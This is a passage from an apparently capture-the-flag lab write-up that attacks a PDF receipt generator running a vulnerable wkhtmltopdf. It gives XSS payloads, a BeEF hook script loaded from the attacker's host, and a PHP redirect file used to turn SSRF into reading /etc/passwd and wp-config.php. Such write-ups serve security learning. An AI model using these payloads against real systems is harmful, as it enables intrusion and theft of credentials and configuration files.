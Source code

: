 First, a simple proof of concept payload: < img src="x" onerror="document.write('test')"/>  \
You can enter this payload into the customer name, additional comment, or item.  The payload works on all 3 of them.  

![image](https://user-images.githubusercontent.com/93153300/199278315-28b3af69-3ee5-4129-b077-1e8428965eb1.png)
 
Now that we have proof of concept, let’s turn this into a payload to read local files on the target.  The payload is: <iframe src=file:///etc/passwd></iframe> \
Running this payload through the pdf converter shows an empty iframe.  It doesn’t show /etc/passwd. Let’s try a different malicious payload.  Use beef to hook the target.  To use beef, run command beef-xss in terminal. 

![image](https://user-images.githubusercontent.com/93153300/199278351-e06a840b-bbf2-4784-aaf5-4509c9524e7d.png)

Next, open beef in the browser by going to http://127.0.0.1:3000/ui/panel.  The output from the command beef-xss provides us with the hook we will use:\
<script src="http://10.2.1.148:3000/hook.js"></script>  
Put that hook into one of the user inputs on internal.seasurfer.thm.  Then click on create receipt to run the pdf converter.  The beef browser page shows internal.seasurfer.thm is hooked:

![image](https://user-images.githubusercontent.com/93153300/199278400-296f28d2-45ac-4fb8-879f-11b2721fc662.png)

Unfortunately for us, the hook doesn’t last long.  Using persistence methods on beef to try to keep it going longer does not help either. However, we can still look through the details that beef found about the target, let’s take a look: 
 
![image](https://user-images.githubusercontent.com/93153300/199278454-1ec5ee6d-4218-4744-ad07-119c1823d7c5.png) 

The browser.name.reported shows wkhtmltopdf.  A quick google search on wkhtmltopdf shows that certain versions of wkhtmltopdf is vulnerable to server side request forgery. Going back to internal.seasurfer.thm site, open the developer tools with f12 and go to Console:

![image](https://user-images.githubusercontent.com/93153300/199278517-975c58c1-c12c-4935-a8c1-a8e781e981be.png)
 
Console shows the version of wkhtmltopdf is 0.12.5.  This version is vulnerable to ssrf, and can be used to read local files (lfi) on the target.   

***(I restarted my machine here: so the target ip address changed to: 10.10.139.0 )

Steps for ssrf to lfi:\
Step 1: create a php file with the following content: <?php header('location:file://'.$_REQUEST['file']); ?> \
Step 2: host the php file with a php web server: php -S 0.0.0.0:80  (Don’t use a python web server because it won’t execute our hosted php file.) \
Step 3: Go to the pdf creator page on internal.seasurfer.thm, and insert in one of the user input fields the following payload: <iframe height="5000" width="1000" src=http://10.2.1.148/testing.php?file=/etc/passwd></iframe>

Running the pdf creator with these 3 steps works, it shows the /etc/passwd file:
 
![image](https://user-images.githubusercontent.com/93153300/199278566-436d114c-f62f-48ec-92ce-7292d2025250.png)

Use this ssrf to lfi to read wp-config.php: <iframe height="5000" width="1000" src=http://10.2.1.148/testing.php?file=/var/www/wordpress/wp-config.php></iframe>
 